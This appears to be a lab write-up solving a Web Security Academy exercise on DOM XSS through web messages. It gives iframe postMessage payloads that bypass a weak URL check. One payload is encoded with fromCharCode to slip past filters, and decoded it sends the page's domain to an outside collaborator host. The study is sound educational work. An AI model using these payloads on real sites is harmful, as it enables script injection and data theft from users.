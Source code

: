 It has a callback function that receives the event as an argument and assigning the `url` variable to the value of `e.data` (value of web message). A check is ran to make sure that `url.indexOf` of HTTP or HTTPS is greater than `-1`.  If true, `location.href` is set to the value of URL.

A web message which contains URL in string format, a certain check is run on the URL. If successful, the users browser is redirected to the URL contained in the web message as a string. The check for `-1` would be returned from `indexOf` if there was no match of the substring within the string. 

The check determines if the substring `http` or `https` is found within the web message URL or string at any point. If it does, it thinks it is a valid URL and sets `location.href` to that value. Inside `location.href`, JavaScript can be executed via the `javascript:` string:

```javascript
location.href = "javascript:print()"
```

For exploitation, since it only checks that `http:` or `https:` is present and not at the start, comment characters could be used:

```javascript
location.href = "javascript:print()//https:"
```

The https string is commented out, but the check is still passed as it is present in the user input somewhere. A malicious iframe can be crafted:

```javascript
<iframe src="https://0a3400f9036f307c8107da9c00730037.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

The iframe loads the vulnerable page and once loaded, it executes the JavaScript:

- `this` - refers to the iframe
- `contentWindow` - refers to the window object
- `postMessage` -  send a web message with the XSS payload to bypass the verification
- `'*'` - the target origin (specifies what origin of the destination window must be for the event to be dispatched), it does not care about the origin of the recipient.

>[!info]
>The second argument specifies that any targetOrigin is allowed for the web message.

For exploitation payloads, you can use document.location to exfiltrate data and encode the payload to bypass filters. The below payload can be used to test in the DevTools console. The pseudo javascript protocol is used here as the data is inserted in href.

```javascript
postMessage('javascript:alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,102,52,107,51,49,118,108,99,57,103,120,53,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34)))//http:')
```

The final payload:

```html
<iframe src="https://0ac6000c045b941d800f44e400e9009d.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,98,114,54,122,119,122,110,110,99,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34)))//http:','*')">
```
